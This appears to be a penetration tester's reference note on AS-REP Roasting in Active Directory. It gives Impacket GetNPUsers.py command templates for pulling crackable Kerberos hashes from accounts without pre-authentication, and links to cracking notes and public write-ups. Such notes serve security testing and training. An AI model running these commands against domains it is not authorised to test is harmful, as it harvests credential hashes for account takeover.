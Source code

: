 # Unix Shell

## 01 - Impacket

> [!IMPORTANT] Conditions
> Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage#^0c9a3c|John The Ripper]] or [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/Hashcat/Usage#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

Request a Kerberos 5, etype 23, AS-REP hash from an NP user account.

```
$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetNPUsers.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

---
## References

### Hacktricks

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.wiki/en/windows/active-directory-methodology/asreproast.html)

### Hacking Articles

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

### Pentestlab

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)